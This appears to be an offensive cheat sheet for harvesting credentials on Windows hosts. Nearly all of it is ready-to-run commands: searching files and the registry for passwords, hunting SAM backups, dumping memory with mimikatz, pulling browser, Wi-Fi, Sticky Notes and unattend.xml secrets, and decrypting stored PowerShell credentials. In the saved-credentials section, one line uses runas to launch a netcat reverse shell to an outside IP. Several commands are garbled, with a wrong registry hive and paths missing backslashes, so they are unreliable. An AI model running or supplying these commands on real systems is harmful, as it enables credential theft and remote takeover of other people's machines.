 ### **FILE SEARCHING COMMANDS**

1.  Search for potentially risky files in the current directory and its subdirectories:  
    `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config* == *user*`
    
2.  Search for cleartext credentials:  
    `gci * -Include *.xml -Recurse -EA SilentlyContinue | select-string cpassword`
    
3.  search for IIS Web config file  
    `Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`
    
4.  Find Files Containing "Password" Across Common Configuration File Types:  
    `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1 *.bat *.zip`
    
5.  Hunt for SAM and SYSTEM Backups  
    `cd C: & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK`
    
6.  Use Tools Like winPEAS to Search for Files Containing Credentials:  
    `.\winPEASany.exe quiet cmd searchfast filesinfo`
    

### **SEARCHING FOR CREDENTIALS IN THE REGISTRY**

3.  Search for Passwords in HKEY_LOCAL_MACHINE (HKLM)  
    `reg query HKLM /f password /t REG_SZ /s`
4.  Search for Passwords in HKEY_CURRENT_USER (HKCU)  
    `reg query HKLU /f password /t REG_SZ /s`
5.  Retrieve Credentials from PuTTY  
    `reg query HKEY_CURRENT_USERSoftwareSimonTathamPuTTYSessions /f "Proxy" /s`

### **SAVED WINDOWS CREDENTIALS**

Windows provides the functionality to use and save other users' credentials. The following commands help list and Use these saved credentials:

1.  Automatically Identify Saved Credentials with winPEAS:  
    `.\winPEASx64.exe quiet cmd windowscreds`
2.  Check AutoLogon Credentials in registry:  
    `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
3.  Extract plaintext passwords from memory using mimikatz:  
    `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
4.  Manually List Saved Credentials:  
    `cmdkey /list`
5.  Run Command with Saved Credentials:  
    `runas /savecred /user:admin cmd.exe`
6.  Prepare to Receive a Reverse Shell with Netcat:  
    `nc -lvnp 1337`
7.  Execute Commands Using Saved Credentials for a Reverse Shell:  
    `runas /env /noprofile /savecred /user:DESKTOP-T3I4BBK\administrator "c:\temp\nc.exe [IP-ADRESS] 1337 -e cmd.exe"`

### **POWERSHELL HISTORY FILE**

1.  Locate PowerShell History File:  
    `(Get-PSReadLineOption).HistorySavePath`
2.  Read Contents of PowerShell History File:  
    `gc (Get-PSReadLineOption).HistorySavePath`
3.  Retrieve PowerShell History Files for All Users:  
    `foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}`

### **BROWSER CREDENTIALS**

1.  Extract browser credentials using LaZagne:  
    `lazagne.exe browsers`
2.  Chrome Password  
    `gc 'C:UsersuserAppDataLocalGoogleChromeUser DataDefaultCustom Dictionary.txt' | Select-String password`

### **POWERSHELL CREDENTIALS**

1.  Import Credentials from XML File:  
    `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`
    
2.  Retrieve Username from Imported Credentials:  
    `$credential.GetNetworkCredential().Username`
    
3.  Retrieve Password from Imported Credentials:  
    `$credential.GetNetworkCredential().Password`
    
4.  Complete Example to Decrypt and Display Username and Password:
    
    ```PowerShell
    $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
    $username = $credential.GetNetworkCredential().Username
    $password = $credential.GetNetworkCredential().Password
    "Username: $username"
    "Password: $password"
    ```
    

### **STICKY NOTES PASSWORDS**

1.  Locate Sticky Notes Database Files:  
    `ls C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`
    
2.  Set Execution Policy to Bypass for the Current Process:  
    `PS C:\> Set-ExecutionPolicy Bypass -Scope Process`
    
3.  Change Directory to Where PSSQLite is Located:  
    `PS C:\> cd .\PSSQLite\`
    
4.  Import the PSSQLite module:  
    `PS C:\PSSQLite> Import-Module .\PSSQLite.psd1`
    
5.  Define the path to the Sticky Notes database file:  
    `PS C:\PSSQLite> $db = 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'`
    
6.  Query Database to Retrieve Text of Notes:  
    `PS C:\PSSQLite> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | Format-Table -Wrap`
    
7.  Extract and View Contents of Database File Using Strings Command:  
    `strings 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite-wal'`
    

### **WIFI PASSWORDS**

1.  View List of All Saved Wireless Networks:  
    `PS C:\> netsh wlan show profile`
    
2.  Retrieve Password for a Specific Wireless Network Profile:  
    `PS C:\> netsh wlan show profile [PROFILE-NAME] key=clear`
    
3.  Oneliner method to extract wifi passwords from all the access point.  
    `cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on`
    

### **UNATTEND.XML**

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

### **MANUALLY**

1.  `C:\Unattend.xml`

2.  `C:\Windows\Panther\Unattend.xml`

3.  `C:\Windows\Panther\Unattend\Unattend.xml`
    
4.  `C:\Windows\System32\sysprep.inf`
    
5.  `C:\Windows\System32\sysprep\sysprep.xml`
    

### **AUTOMATICALLY**

1.  Perform a detailed search for unattended and sysprep files:  
    `Get-ChildItem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue`
    
2.  Search for specific log and configuration files:  
    `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`
    
3.  Search for the term 'password' in all files:  
    `findstr /spin "password" *.*`
    
4.  Open the Unattend.xml File with a Text Editor to Review Content:  
    ```xml
    <AutoLogon>
        <Password>
            <Value>HackFast_p@ss</Value>
            <PlainText>true</PlainText>
        </Password>
        <Enabled>true</Enabled>
        <LogonCount>2</LogonCount>
        <Username>Administrator</Username>
    </AutoLogon>
    ```